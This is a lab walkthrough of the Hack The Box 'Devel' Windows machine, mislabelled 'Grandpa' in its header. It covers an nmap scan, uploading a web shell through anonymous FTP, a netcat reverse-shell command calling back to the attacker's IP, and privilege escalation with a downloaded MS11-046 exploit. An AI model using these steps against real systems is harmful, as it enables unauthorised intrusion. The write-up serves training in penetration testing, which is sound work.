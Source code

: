 ```yaml
---
layout: single
title: Grandpa - Hack The Box
excerpt: "Devel is an Windows machine that is cataloged as easy. In this case, we are going to take advantage of ftp (port 21) that allows anonymous login and let us as attackers upload a web shell and we will be in as the user 'iis appol \ web'. Then with a little help of Windows exploit suggester we get access as root user."
date: 2021-11-30
classes: wide
header:
  teaser: /assets/images/htb-writeup-Devel/logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:
  - easy
  - ftp
  - Windows Exploit suggester

---
```


![](/assets/images/htb-writeup-Devel/logo.png)

Devel is an Windows machine that is cataloged as easy. In this case, we are going to take advantage of ftp (port 21) that allows anonymous login and let us as attackers upload a web shell and we will be in as the user 'iis appol \web'. Then with a little help of Windows exploit suggester we get access as root user.

Machine IP = 10.10.10.5

The first thing I do is to setup my work environment with a Python script that I create which will tell me exactly what machine I'm attacking; At the same time it will create some directories that I normally use (nmap, content, exploit, notes).  

If you want to Clone this repository please refer to [initHack en github](https://github.com/W1nz4c4r/initHACK).

![](/assets/images/htb-writeup-Devel/initHACK.png)

## Port Scan
 After having everything setup I send the **nmap** command:
  * map -sS -sV -sC -p- -vvv -oA allPorts 10.10.10.5

```
Nmap 7.92 scan initiated Thu Nov 18 10:43:20 2021 as: nmap -sS -sV -sC -p- -vvv -oA allPorts 10.10.10.5
Nmap scan report for 10.10.10.5
Host is up, received echo-reply ttl 127 (0.060s latency).
Scanned at 2021-11-18 10:43:26 EST for 312s
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON          VERSION
21/tcp open  ftp     syn-ack ttl 127 Microsoft ftpd
| ftp-syst:
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 11-18-21  04:39AM                    7 hello.txt
| 03-17-17  04:37PM                  689 iisstart.htm
| 11-18-21  04:42AM                16392 shell.aspx
|_03-17-17  04:37PM               184946 welcome.png
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 7.5
|_http-title: IIS7
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Nov 18 10:48:38 2021 -- 1 IP address (1 host up) scanned in 317.55 seconds
```

## Enumeration

First thing that I usually like to check is if the **ftp** accepts anonymous login and in this case it does.

![](/assets/images/htb-writeup-Devel/ftp-log.png)

Then I check the web page (port 80) and I realized that what is on the FTP seems to be the home folder for the web server, This means that we can upload a webshell through the FTP and access to it form the browser.

![](/assets/images/htb-writeup-Devel/web-page.png)


## Gaining Foothold

We'll create a test file and check if we can upload files to the web server.
  * test.html:
```
<html>
  <h1> Test </h1>
</html>
```
upload the file through ftp:


 ![](/assets/images/htb-writeup-Devel/testFTP.png)

 then we go on our browser to **http://10.10.10.5/test.html** and we see that we can upload files to the web Server.


 ![](/assets/images/htb-writeup-Devel/testHTML.png)

 Now we are going to upload a web shell and we have command execution

 ![](/assets/images/htb-writeup-Devel/cmdWEB.png)


 Upload a nc.exe to the webpage so we can get a reverse Shell. once the **nc.exe** is uploaded on the web shell we run the following command to get a reverse shell.

    * \\10.10.14.9\mio\nc.exe -e cmd 10.10.14.9 443


![](/assets/images/htb-writeup-Devel/nc.png)

We are in as the user 'iis apppool\web' but we can't get the user or administrator credentials.

![](/assets/images/htb-writeup-Devel/noAccess.png)

## Privilege Escalation

Usually on windows machines what I do for privilege escalation is to run the 'systeminfo' command and check some information about the system.

```
Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          1/12/2021, 5:47:19 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     3.071 MB
Available Physical Memory: 2.474 MB
Virtual Memory: Max Size:  6.141 MB
Virtual Memory: Available: 5.549 MB
Virtual Memory: In Use:    592 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Local Area Connection 3
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
                                 [02]: fe80::58c0:f1cf:abc6:bb9e
                                 [03]: dead:beef::1fc
```

Something that got my attention was that the system is running a windows 7 build 7600 which is a relatively old Os and most likely vulnerable to some exploits

![](/assets/images/htb-writeup-Devel/exploit.png)

I downloaded the exploit **MS11-046** already compiled from [github](https://github.com/abatchy17/WindowsExploits/tree/master/MS11-046). Once you already have the file you need to upload it to the attacked machine, in my case I did it with **impacket-smbserver**

![](/assets/images/htb-writeup-Devel/impakect.png)

Finally, run the exploit and you will be in as **root**.

![](/assets/images/htb-writeup-Devel/root.png)
